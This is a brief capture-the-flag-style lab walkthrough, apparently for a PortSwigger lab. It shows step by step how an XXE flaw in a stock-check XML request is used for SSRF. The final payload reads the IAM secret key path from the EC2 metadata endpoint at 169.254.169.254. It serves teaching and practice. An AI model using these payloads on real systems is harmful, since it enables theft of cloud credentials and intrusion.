






# Exploiting XXE to perform SSRF attacks

## This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

## The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is `http://169.254.169.254/`. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.

## To solve the lab, exploit the [XXE](https://portswigger.net/web-security/xxe) vulnerability to perform an [SSRF attack](https://portswigger.net/web-security/ssrf) that obtains the server's IAM secret access key from the EC2 metadata endpoint.

---

### step 1

```xml

<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>

```

### step2

add `http://169.254.169.254/`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254"> ]>
<stockCheck><productId>
&xxe;
</productId><storeId>&xxe;</storeId></stockCheck>
```











```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck><productId>
&xxe;
</productId><storeId>&xxe;</storeId></stockCheck>
```


